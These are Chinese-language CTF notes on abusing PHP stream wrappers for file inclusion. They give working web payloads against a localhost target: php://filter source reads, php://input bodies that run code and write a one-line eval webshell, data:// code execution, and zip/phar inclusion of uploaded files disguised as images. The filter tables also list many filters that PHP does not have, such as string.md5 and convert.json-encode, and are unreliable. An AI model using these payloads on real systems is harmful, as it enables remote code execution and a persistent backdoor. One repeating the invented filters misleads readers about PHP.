

# php伪协议

[](https://segmentfault.com/a/1190000018991087)

## php支持的伪协议

```txt
1 file:// — 访问本地文件系统
2 http:// — 访问 HTTP(s) 网址
3 ftp:// — 访问 FTP(s) URLs
4 php:// — 访问各个输入/输出流（I/O streams）
5 zlib:// — 压缩流
6 data:// — 数据（RFC 2397）
7 glob:// — 查找匹配的文件路径模式
8 phar:// — PHP 归档
9 ssh2:// — Secure Shell 2
10 rar:// — RAR
11 ogg:// — 音频流
12 expect:// — 处理交互式的流
```

## php://

- 条件：
allow_url_fopen:off/on
allow_url_include :仅php://input php://stdin php://memory php://temp 需要on 
- 作用：
php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是php://filter和php://input，php://filter用于读取源码，php://input用于执行php代码。
- 说明：
PHP 提供了一些杂项输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符，
内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。

| 协议 | 作用 |
|-------|-------|
|php://filter|(>=5.0.0)一种元封装器，设计用于数据流打开时的筛选过滤应用。对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、file() 和 file_get_contents()，在数据流内容读取之前没有机会应用其他过滤器。|
|php://input|可以访问请求的原始数据的只读流，在POST请求中访问POST的data部分，在enctype="multipart/form-data" 的时候php://input 是无效的。|
|php://output|只写的数据流，允许以 print 和 echo 一样的方式写入到输出缓冲区。|
|php://fd|(>=5.3.6)允许直接访问指定的文件描述符。例如 php://fd/3 引用了文件描述符 3。|
|php://memory|(>=5.1.0)一个类似文件包装器的数据流，允许读写临时数据,总是把数据储存在内存中|
| php://temp|(>=5.1.0)一个类似文件包装器的数据流，允许读写临时数据,会在内存量达到预定义的限制后（默认是 2MB）存入临时文件中。临时文件位置的决定和 sys_get_temp_dir() 的方式一致|


### php://filter

#### 常用

```php
php://filter/read=convert.base64-encode/resource=index.php
php://filter/resource=index.php
```

php://filter 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器。

简单通俗的说，这是一个中间件，在读入或写入数据的时候对数据进行处理后输出的一个过程。

php://filter可以获取指定文件源码。当它与包含函数结合时，php://filter流会被当作php文件执行。所以我们一般对其进行编码，让其不执行。从而导致 任意文件读取。

#### 协议参数

| 名称 | 描述 |
|-------|-------|
| resource=<要过滤的数据流> | 这个参数是必须的。它指定了你要筛选过滤的数据流。 |
| read=<读链的筛选列表>  | 该参数可选。可以设定一个或多个过滤器名称，以管道符（\|）分隔。 |
| write=<写链的筛选列表>  | 该参数可选。可以设定一个或多个过滤器名称，以管道符（\|）分隔。 |
| <；两个链的筛选列表>  | 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 |

#### 过滤器

##### 字符串过滤器

| 名称 | 描述 |
|-------|-------|
|string.rot13|字符右移十三位|
|string.toupper|字符大写|
|string.tolower|字符小写|
|string.strip_tags|去除html标签|
|string.reverse|字符串反转|
|string.rot47|字符右移47位|
|string.base64-encode|base64加密|
|string.base64-decode|base64解密|
|string.strip_whitespace|去除空格|
|string.url-encode|url编码|
|string.url-decode|url解码|
|string.md5|md5加密|
|string.sha1|sha1加密|
|string.wordwrap|字符串换行|
|string.chunk_split|字符串分割|
|string.trim|去除字符串首尾空格|
|string.ucfirst|首字母大写|
|string.ucwords|单词首字母大写|

##### 转换过滤器

对数据流进行编码，通常用来读取文件源码。

| 名称 | 描述 |
|-------|-------|
|convert.base64-encode|base64加密|
|convert.base64-decode|base64解密|
|convert.quoted-printable-encode|quoted-printable加密|
|convert.quoted-printable-decode|quoted-printable解密|
|convert.uuencode|uu编码|
|convert.unpack|unpack解码|
|convert.html-entities-decode|html实体解码|
|convert.html-entities-encode|html实体编码|
|convert.iconv.//from_encoding//to_encoding|iconv解码|
|convert.mbstring.//from_encoding//to_encoding|mbstring解码|
|convert.mbstring.//from_encoding//to_encoding//subst|mbstring解码，替换非法字符|
|convert.mbstring.//from_encoding//to_encoding//subst//invalid//replace|mbstring解码，替换非法字符|
|convert.json-encode|json加密|
|convert.json-decode|json解密|
|convert.xml-encode|xml加密|
|convert.xml-decode|xml解密|
|convert.url-encode|url编码|
|convert.url-decode|url解码|
|convert.magic-quotes-decode|magic-quotes解码|
|convert.rawurl-encode|rawurl编码|
|convert.rawurl-decode|rawurl解码|
|convert.charset.//from_encoding//to_encoding|字符集转换|
|convert.charset.//from_encoding//to_encoding//subst|字符集转换，替换非法字符|
|convert.charset.//from_encoding//to_encoding//subst//invalid//replace|字符集转换，替换非法字符|

##### 压缩过滤器

| 名称 | 描述 |
|-------|-------|
|zlib.deflate & zlib.inflate|在本地文件系统中创建 gzip 兼容文件的方法，但不产生命令行工具如 gzip的头和尾信息。只是压缩和解压数据流中的有效载荷部分。|
|bzip2.compress & bzip2.decompress|	同上，在本地文件系统中创建 bz2 兼容文件的方法。|

##### 加密过滤器

| 名称 | 描述 |
|-------|-------|
|mcrypt.*|libmcrypt 对称加密算法|
|mdecrypt.*|libmcrypt 对称解密算法|

### php://input

可以访问请求的原始数据的只读流，**将post请求的数据当作php代码执行**。
当传入的参数作为文件名打开时，可以将参数设为php://input,同时post想设置的文件内容，php执行时会将post内容当作文件内容。从而导致任意代码执行。

#### 示例

##### 查看phpinfo

```http
http://127.0.0.1/cmd.php?cmd=php://input
```

POST数据：

```php
<?php phpinfo()?>
```



##### 写入一句话木马

```http
http://127.0.0.1/cmd.php?cmd=php://input
```

POST数据：

```php
<?php fputs(fopen('1juhua.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```

## file://

### 条件

- allow_url_fopen:off/on
- allow_url_include :off/on

### 作用

用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受allow_url_fopen与allow_url_include的影响。
include()/require()/include_once()/require_once()参数可控的情况下，如导入为非.php文件，则仍按照php语法进行解析，这是include()函数所决定的。

### 说明

file:// 文件系统是 PHP 使用的默认封装协议，展现了本地文件系统。当指定了一个相对路径（不以/、、\或 Windows 盘符开头的路径）提供的路径将基于当前的工作目录。在很多情况下是脚本所在的目录，除非被修改了。使用 CLI 的时候，目录默认是脚本被调用时所在的目录。在某些函数里，例如 fopen() 和 file_get_contents()，include_path 会可选地搜索，也作为相对的路径。
用法：

```php
/path/to/file.ext
relative/path/to/file.ext
fileInCwd.ext
C:/path/to/winfile.ext
C:\path\to\winfile.ext
\\smbserver\share\path\to\winfile.ext
file:///path/to/file.ext
```

### 示例

#### file://[文件的绝对路径和文件名]

```http
http://127.0.0.1/include.php?file=file://E:\phpStudy\PHPTutorial\WWW\phpinfo.txt
```

![file://[文件的绝对路径和文件名]](./file[文件的绝对路径和文件名].webp)
可以看到读取的是txt文件，**将里面的字符作为php代码执行**，输出了phpinfo信息。

#### file://[文件的相对路径和文件名]

```http
http://127.0.0.1/include.php?file=./phpinfo.txt
```

#### file://[http：//网络路径和文件名]

```http
http://127.0.0.1/include.php?file=http://127.0.0.1/phpinfo.txt
```

## data://

### 条件

allow_url_fopen:on
allow_url_include :on

### 作用

自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。

### 用法

```http
data://text/plain,
data://text/plain;base64,
```

### 示例

#### data://text/plain,

```http
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
```

#### data://text/plain;base64,

```http
http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

## zip:// & bzip2:// & zlib://

### 条件

- allow_url_fopen:off/on
- allow_url_include :off/on

### 作用

zip:// & bzip2:// & zlib:// 均属于压缩流，可以访问压缩文件中的子文件
更重要的是不需要指定后缀名，可修改为任意后缀：jpg png gif xxx 等等。

### 示例

#### zip://

`zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]（#编码为%23）`
压缩 phpinfo.txt 为 phpinfo.zip ，压缩包重命名为 phpinfo.jpg ，并上传

```http
http://127.0.0.1/include.php?file=zip://E:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt
```

zip://./backup.zip%23hello.php

得到phpinfo

#### compress.bzip2://file.bz2

压缩 phpinfo.txt 为 phpinfo.bz2 并上传（同样支持任意后缀名）

```http
http://127.0.0.1/include.php?file=compress.bzip2://E:\phpStudy\PHPTutorial\WWW\phpinfo.bz2
```

#### compress.zlib://file.gz

压缩 phpinfo.txt 为 phpinfo.gz 并上传（同样支持任意后缀名）

```http
http://127.0.0.1/include.php?file=compress.zlib://E:\phpStudy\PHPTutorial\WWW\phpinfo.gz
```

## phar://

phar://协议与zip://类似，同样可以访问zip格式压缩包内容，在这里只给出一个示例：

```http
http://127.0.0.1/include.php?file=phar://E:/phpStudy/PHPTutorial/WWW/phpinfo.zip/phpinfo.txt
```

新技术，有时间看一下：
[利用 phar 拓展 php 反序列化漏洞攻击面](https://paper.seebug.org/680/)
